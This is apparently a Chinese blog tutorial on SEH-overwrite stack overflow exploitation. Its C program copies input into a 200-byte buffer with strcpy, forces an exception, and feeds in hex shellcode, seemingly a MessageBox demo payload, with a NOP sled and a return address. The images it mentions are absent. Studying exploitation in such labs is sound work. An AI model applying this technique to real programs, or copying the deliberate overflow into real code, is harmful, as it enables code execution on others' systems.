




# Using SEH in stack overflow

**Author：wnagzihxain
Mail：tudouboom@163.com**

```
#include <windows.h>
#include <stdio.h>

char *shellcode = "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x98\xFE\x12\x00";

DWORD MyExceptionhandler(void)
{
	printf("got an exception, press Enter to kill process\n");
	getchar();
	ExitProcess(1);
}

void test(char* input)
{
	char buf[200];
	int zero = 0;
	//__asm int 3
	__try
	{
		strcpy(buf, input);
		zero = 4/zero;
	}
	__except(MyExceptionhandler){}
}

int main()
{
	test(shellcode);
	return 0;
}
```

我们先测一测整个的结构，比如缓冲区的起始位置，SEH链的结构，那么大概就是下面这种情况



断下来后我们单步走，直到执行`strcpy()`



现在我们可以确定了，现在换上我们的shellcode，整个shellcode的长度和最后覆盖SEH的地址要根据自己环境来确定，编译生成release版本



最后放一张很有意思的图

